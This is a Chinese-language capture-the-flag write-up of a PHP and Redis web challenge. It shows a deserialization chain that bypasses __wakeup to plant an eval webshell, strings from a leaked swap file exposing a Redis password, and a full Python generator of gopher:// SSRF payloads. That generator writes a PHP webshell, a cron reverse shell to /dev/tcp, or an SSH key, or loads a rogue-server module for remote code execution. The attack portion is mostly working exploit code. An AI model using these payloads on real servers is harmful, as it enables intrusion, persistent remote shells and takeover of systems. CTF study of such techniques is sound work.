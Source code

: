 tags:: CTFWEB/Redis

- # 思路
	- 绕过wakeup实现POP
	- ~~使用Redis主从复制获取root~~使用蚁剑绕过disable_function
- # 绕过wakeup实现POP
	- 题目判断了序列化字符串中类的字段数是否为1，而wakeup绕过只需要类的字段数和实际的字段数不同
	- 我们可以构建两个字段，然后将字段数改为1来绕过wakeup
	- ```php
	  $o = new B();
	  $o -> a = new A();
	  $o -> a -> code = 'eval($_POST[data]);';
	  $o -> a -> b = "114514";
	  
	  $s = serialize($o);
	  $s = str_replace('"A":2:', '"A":1:', $s);
	  preg_match_all('/"[BA]":(.*?):/s',$s,$result);
	  echo "<br>payload: <br>";
	  echo urlencode($s);
	  ```
- # 使用蚁剑绕过disable_function
	- RT，安装相应插件即可执行任意linux shell命令，在根目录看到flag
- # 使用Redis主从复制获取root
	- 看到config.php.swp
		- ```shell
		  # user @ Hack in ~/toolkit/burst_kit/test on git:master x .venv [10:18:56] 
		  $ strings .config.php.swp 
		  b0VIM 8.0
		  ruozhi
		  DESKTOP-O3MVQS3
		  /mnt/c/Users/adim/Desktop/a.php
		  3210
		  #"! 
		  define("REDIS_PASS","you_cannot_guess_it");
		  define("DB_DATABASE","test");
		  define("DB_PASSWOrd","");
		  define("DB_USERNAME","root");
		  define("DB_HOST","localhost");
		  <?php
		  ```
	- 使用[Redis Rogue Server](https://github.com/Dliv3/redis-rogue-server)作为服务端，[这里](https://www.secpulse.com/archives/132215.html)的脚本的修改版（ ((6478166b-ea87-42d3-b282-45bd4bb3d831)) ）作为payload生成器
	- 在脚本中填写相关字段生成payload，在VPS上部署rouge server并将附带的exp.so复制到/tmp下，最后将payload传上目标即可
- # 脚本
	- redis payload生成的脚本
	  id:: 6478166b-ea87-42d3-b282-45bd4bb3d831
		- ```python
		  #!/usr/local/bin python
		  # coding=utf8
		  
		  try:
		      from urllib import quote
		  except:
		      from urllib.parse import quote
		  
		  
		  def generate_shell(filename, path, passwd, payload):
		      cmd = ["flushall",
		             "set 1 {}".format(payload),
		             "config set dir {}".format(path),
		             "config set dbfilename {}".format(filename),
		             "save"
		             ]
		      if passwd:
		          cmd.insert(0, "AUTH {}".format(passwd))
		      return cmd
		  
		  
		  def generate_reverse(filename, path, passwd, payload):  # centos
		  
		      cmd = ["flushall",
		             "set 1 {}".format(payload),
		             "config set dir {}".format(path),
		             "config set dbfilename {}".format(filename),
		             "save"
		             ]
		      if passwd:
		          cmd.insert(0, "AUTH {}".format(passwd))
		      return cmd
		  
		  
		  def generate_sshkey(filename, path, passwd, payload):
		      cmd = ["flushall",
		             "set 1 {}".format(payload),
		             "config set dir {}".format(path),
		             "config set dbfilename {}".format(filename),
		             "save"
		             ]
		      if passwd:
		          cmd.insert(0, "AUTH {}".format(passwd))
		      return cmd
		  
		  
		  def generate_rce(lhost, lport, passwd, command="cat /etc/passwd"):
		      exp_filename = "exp.so"
		      cmd = [
		          "SLAVEOF {} {}".format(lhost, lport),
		          "CONFIG SET dir /tmp/",
		          "config set dbfilename {}".format(exp_filename),
		          "MODULE LOAD /tmp/{}".format(exp_filename),
		          "system.exec {}".format(command.replace(" ", "${IFS}")),
		          # "SLAVEOF NO ONE",
		          # "CONFIG SET dbfilename dump.rdb",
		          # "system.exec rm${IFS}/tmp/{}".format(exp_filename),
		          # "MODULE UNLOAD system",
		          "POST"
		      ]
		      if passwd:
		          cmd.insert(0, "AUTH {}".format(passwd))
		      return cmd
		  
		  
		  def rce_cleanup():
		      exp_filename = "exp.so"
		      cmd = [
		          "SLAVEOF NO ONE",
		          "CONFIG SET dbfilename dump.rdb",
		          "system.exec rm${IFS}/tmp/{}".format(exp_filename),
		          "MODULE UNLOAD system",
		          "POST"
		      ]
		      if passwd:
		          cmd.insert(0, "AUTH {}".format(passwd))
		      return cmd
		  
		  
		  def redis_format(arr):
		      CRLF = "\r\n"
		      redis_arr = arr.split(" ")
		      cmd = ""
		      cmd += "*" + str(len(redis_arr))
		      for x in redis_arr:
		          cmd += CRLF + "$" + str(len((x))) + CRLF + x
		      cmd += CRLF
		      return cmd
		  
		  
		  def generate_payload(ip, port, passwd, mode):
		      payload = "test"
		  
		      if mode == 0:
		          filename = "shell.php"
		          path = "/var/www/html"
		          shell = "\n\n<?php eval($_GET[\"cmd\"]);?>\n\n"
		  
		          cmd = generate_shell(filename, path, passwd, shell)
		  
		      elif mode == 1:
		          filename = "root"
		          path = "/var/spool/cron/"
		          shell = "\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.1.1/2333 0>&1\n\n"
		  
		          cmd = generate_reverse(filename, path, passwd, shell)
		  
		      elif mode == 2:
		          filename = "authorized_keys"
		          path = "/root/.ssh/"
		          pubkey = "\n\nssh-rsa "
		  
		          cmd = generate_sshkey(filename, path, passwd, pubkey)
		  
		      elif mode == 3:
		          # rogue server貌似需要将exp.so放在/tmp下
		          lhost = "198.98.53.82" # TODO: rogue server的IP
		          lport = "21000" # TODO: rogue server的端口号
		          command = "" # TODO: 此处运行shell command, 填写reverse shell的payload
		  
		          cmd = generate_rce(lhost, lport, passwd, command)
		  
		      elif mode == 31:
		          cmd = rce_cleanup()
		  
		      protocol = "gopher://"
		      payload = protocol + ip + ":" + port + "/_"
		  
		      for x in cmd:
		          payload += quote(redis_format(x))
		      return payload
		  
		  
		  if __name__ == "__main__":
		      # 0 for webshell ; 1 for re shell ; 2 for ssh key ; 3 for redis rce ; 31 for rce clean up
		      # suggest cleaning up when mode 3 used
		      mode = 3
		  
		      # need auth or not
		      passwd = "you_cannot_guess_it"
		  
		      ip = "127.0.0.1" # 目标的IP和端口
		      port = "6379"
		  
		      p = generate_payload(ip, port, passwd, mode)
		      print(p)
		  
		  ```